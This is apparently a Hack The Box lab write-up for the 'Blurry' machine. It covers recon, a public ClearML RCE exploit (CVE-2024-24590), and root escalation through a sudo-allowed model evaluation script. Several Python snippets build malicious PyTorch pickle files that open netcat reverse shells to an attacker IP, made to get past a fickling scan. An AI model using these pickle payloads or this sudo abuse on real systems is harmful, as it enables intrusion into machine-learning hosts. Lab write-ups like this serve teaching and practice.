

**Start 17:15 15-08-2024**

---
```
10.10.11.19
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.11.19                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 16:14 IST
Nmap scan report for 10.10.11.19
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds

```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sT -sV 10.10.11.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 16:14 IST
Nmap scan report for 10.10.11.19
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds

```

### Searchsploit
I checked the `nginx` version to be sure, but it yielded nothing:

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit  "nginx 1.18.0"             
Exploits: No Results
Shellcodes: No Results
```

We of course add the `machine IP` to our `/etc/hosts` file under `app.blurry.htb`.

## Directory Enumeration
Using `Gobuster` we find some interesting looking subdomains:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dns -d "blurry.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 100

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     blurry.htb
[+] Threads:    100
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: chat.blurry.htb
Found: app.blurry.htb 
Found: files.blurry.htb

```

We'll add these to our `/etc/hosts` file as well and go on further.


## 80/TCP - HTTP

After adding the `IP` to the `/etc/hosts` file we go to the website and are greeted with the following:


We can go ahead and choose the `default user` option after which we get the `getting started` screen:


We'll note this down and move on. We click on the `Profile` button and in the bottom right corner we see the version of the `WebApp`:


We can try to look this up and check whether there's any exploits available. We find a few of them and check out which one of them is more applicable to us.

- CVE-2024-24590 - this is a `Remote Code Execution` vulnerability
- CVE-2024-24593 - `CSRF` vulnerability in all versions up to `1.14.1`

We'll check out the `RCE` vulnerability first.

## Remote Code Execution exploit
We found the [following exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit) which we will download and run against the website.
It tells us that the following package is not installed:

```bash
┌──(kali㉿kali)-[~]
└─$ python rce.py                                            

    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⠄⠄⠄⠄⠄⣠⣴⣶⣾⣿⣿⣿⣷⣶⣤⣀⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⠄⠄⢀⣴⣿⣿⣿⡿⠿⠟⠛⠻⠿⣿⣿⣿⡷⠆⠄⠄⠄⠄⠄
    ⠄⠄⠄⠄⢠⣿⣿⣿⠟⠁⠄⠄⠄⠄⠄⠄⠄⠉⠛⠁⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⢠⣿⣿⣿⠃⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⢸⣿⣿⡇⠄⠄⠄⠄⣠⣾⠿⢿⡶⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
    ⠄⢸⣿⣿⣿⣿⡇⠄⠄⠄⠄⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⣿⣿⣿⣿⣷⡀⠄⠄⠄⠙⠿⣶⡾⠟⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⠘⣿⣿⣿⣿⣷⣄⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⠘⢿⣿⣿⣿⣿⣷⣦⣤⣀⣀⣠⣤⣴⣿⣿⣷⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⠄⠄⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠁⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⠄⠄⠄⠄⠈⠛⠻⠿⣿⣿⡏⠉⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄
    
CVE-2024-24590 - ClearML RCE
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 1
[+] Initializing ClearML
[i] Press enter after pasting the configuration
sh: 1: clearml-init: not found
[?] Do you want to go back to the main menu or exit? (menu/exit):
```

We might come back to this later.

First let's go ahead and check out the other subdomains.

### Chat
Heading onto this page we are greeted with:


We go ahead and create an account, pick whatever credentials. Once we're signed up and logged in we see this page:


We see a bunch of members inside the `general` tab chatting with each other:


Other than that there's not a lot on this site besides the `announcements` tab:


This `jippity` guy seems to be the `admin` at this company. One sentence does stand out:

	 Whenever you complete a task that generates artifacts that you believe
	 should be reviewed, please tag these tasks with the "review" tag in ClearML.
	 
	I will periodically run a specialised task designed to identify and process 
	all tasks, within our Black Swan project, marked with the "review" tag.

Since this is a `DevOps` team, there is likely a script automatically checking tasks with the `review` tag, something to look out for.

That's all I possibly got from this website, let's move on.

### ClearML
I retraced back to `ClearML` and went through the setup process once more. I did `pip install virtualenv` and then started up a new virtual environment. After this we activate the binary and install the `clearml` package inside it and initialize it. This looks as follows:

Add `api.blurry.htb` to the `/etc/hosts` file.

```bash
sudo apt install python3.11-venv
pip install virtualenv
python3 -m venv .env

source .env/bin/activate

# Inside the virtual environment
┌──(.env)─(kali㉿kali)-[~]
└─$ pip install clearml
```

Next up we want to head to the `http://app.blurry.htb` page and go to `settings` -> `Workspace` and click on `create new credentials`:


Copy the whole `api` code block:


Paste the configuration script and continue on:

```bash
┌──(.env)─(kali㉿kali)-[~]
└─$ clearml-init
ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:
api { 
    web_server: http://app.blurry.htb
    api_server: http://api.blurry.htb
    files_server: http://files.blurry.htb
    credentials {
        "access_key" = "9SASIN2AHNFK4QLOHAC4"
        "secret_key"  = "CBuL8uqzYOCN8s4io9JfWhBLHHmKwD1RMPSKl3OHYHkq5Xi6CS"
    }
}
Detected credentials key="9SASIN2AHNFK4QLOHAC4" secret="CBuL***"

ClearML Hosts configuration:
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb

Verifying credentials ...
Credentials verified!

New configuration stored in /home/kali/clearml.conf
ClearML setup completed successfully.
```

Now `ClearML` should be correctly configured and we can get to exploiting, let's take another look at the exploit we found in the beginning now that the setup is complete.

## Exploitation
As we've read in the `chat` subdomain, we need to upload to the `Black Swan project` a file marked under `review`. We'll use the script we've previously found and tried to use.

We initialize (unfortunately again) our `ClearML` within the script:


Afterwards we go ahead and follow the `exploit` part. I was prompted with `IP, PORT and Target Project Name` and I entered them down below:


You can set up a `netcat` listener with the script or yourself, I decided to do it in a separate tab:


If all is done correctly we should get a reverse shell as `jippity`, aka the `admin of the Black Swan project`.

### user.txt
Once we got the reverse shell we land in the `/home` directory where the `user` flag is chilling and is ready to be picked up by us:

```bash
jippity@blurry:~$ cat user.txt  
cat user.txt
301f305c8d9be42ca5497b6b9043e6ea
```


## Privilege Escalation
Now onto some `privilege escalation`. For a change it was nice that we were able to run `sudo -l` which made life way easier for me:

```bash
jippity@blurry:~$ sudo -l
sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

We see that we can run the `evaluate_model` binary as `root` without a password. I chose to read the file to see what it did:

```bash
cat /usr/bin/evaluate_model
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/opt/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")

    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

Basically this script looks for `malicious files` and removes contents from them.
We find that we have `write` access in the `/models` directory which is sweet.


Since we're allowed to write files with the `.pth` file, we'll have to scribble up a `PyTorch reverse-shell` script that makes us `root`.

```python
import torch  
import torch.nn as nn  
import os  
  
class MaliciousModel(nn.Module):  
# PyTorch's base class for all neural network modules  
	def __init__(self):  
		super(MaliciousModel, self).__init__()  
		self.dense = nn.Linear(10, 1)  
  
# Define how the data flows through the model  
	def forward(self, aeg): # Passes input through the linear layer.  
		return self.dense(aeg)  
  
# Overridden __reduce__ Method  
	def __reduce__(self):  
		cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4
		6060 >/tmp/f"  
		return os.system, (cmd,)  
  
# Create an instance of the model  
malicious_model = MaliciousModel()  
  
# Save the model using torch.save  
torch.save(malicious_model, 'aeg.pth')
```

To make this work we'll have to first  `pip install torch` inside the `venv shell` that we already had running. Once that is done we will create this script which we will in turn upload using `wget` onto the target machine. We will do it like so:

```bash
┌──(.env)─(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
jippity@blurry:/models$ wget http://10.10.14.4/aeg.pth
wget http://10.10.14.4/pwn.pth
--2024-08-15 14:33:12--  http://10.10.14.4/aeg.pth

Connecting to 10.10.14.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 727 [application/octet-stream]
Saving to: ‘pwn.pth’

pwn.pth             100%[===================>]     727  --.-KB/s    in 0s      

2024-08-15 14:33:13 (24.8 MB/s) - ‘aeg.pth’ saved [727/727]
```

Once it is uploaded we can start a listener on the specified port, in this case `6060`, and then use the `evaluate_model` script on our `pwn.pth` script we just wrote. Of course we'll have to do this from within the `/models` directory as we have `write access there`.

```bash
nc -lvnp 6060
```

```bash
sudo /usr/bin/evaluate_model /models/aeg.pth
```

So for some reason it didn't work a bunch of times even if everything was done correctly:

```bash
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/aeg.pth
sudo /usr/bin/evaluate_model /models/aeg.pth
[!] Unknown or unsupported file format for /models/aeg.pth
```

### Updated script
I decided to test around with the script and try to update it in such a way that it would pass the check thus:

```python
import torch
import torch.nn as nn
import os
import subprocess
import pickle

class SafeModel(nn.Module):
    def __init__(self):
        super(SafeModel, self).__init__()
        self.dense = nn.Linear(10, 1)

    def forward(self, aeg):
        return self.dense(aeg)

    # Avoid using __reduce__ directly; use a custom layer to trigger the shell.
    def __getstate__(self):
        # This is what gets pickled
        state = self.__dict__.copy()
        # Add a command to be executed later (less overtly malicious)
        state['trigger'] = "bash -c 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.4 6060 > /tmp/f'"
        return state

# Custom unpickler that triggers the payload
def custom_unpickler(file_path):
    with open(file_path, 'rb') as f:
        model = pickle.load(f)
    # Trigger the hidden command
    subprocess.Popen(model['trigger'], shell=True)

# Create and save the model
safe_model = SafeModel()
torch.save(safe_model, 'aeg.pth')

# Later, this part would simulate what happens when the model is loaded
# It triggers the malicious payload in a less detectable way
custom_unpickler('aeg.pth')
```

We try the same process over again.

```bash
wget http://10.10.14.4/aeg.pth
```

```bash
sudo /usr/bin/evaluate_model /models/aeg.pth
```

And same old issue.

### Attempt 3 - WORKED
We create a script that we upload and `then` run with `python3` in order to get it working.
Thus we create another script:

```python
import torch
import torch.nn as nn
import torch.nn.functional as F
import os

class Net(nn.Module):
    def __init__(self):
        super(Net, self).__init__()
        self.layer1 = nn.Linear(1, 128)
        self.layer2 = nn.Linear(128, 128)
        self.layer3 = nn.Linear(128, 2)

    def forward(self, x):
        x = F.relu(self.layer1(x))
        x = F.relu(self.layer2(x))
        action = self.layer3(x)
        return action

    def __reduce__(self):
        return (os.system, ('nc -c bash 10.10.14.4 6060',))

if __name__ == '__main__':
    n = Net()
    torch.save(n, 'getshell.pth')
```

We AGAIN upload this to the machine using `wget`

```bash
wget http://10.10.14.4/buildshell.py
```

And then we copy over the file, and afterwards run `python3 buildshell.py`. 


After we created the new `.pth` file, I copied it over into the `/models` directory after which I ran the `sudo` command again.



This time it finally worked and I got a `root` shell.


### root.txt

```bash
root@blurry:/tmp# cat /root/root.txt
cat /root/root.txt
f733cd569eccd3711b19dbc2f5f0eae2
```


---

**Finished 21:12 15-08-2024**

[^Links]: [[Hack The Box]] 
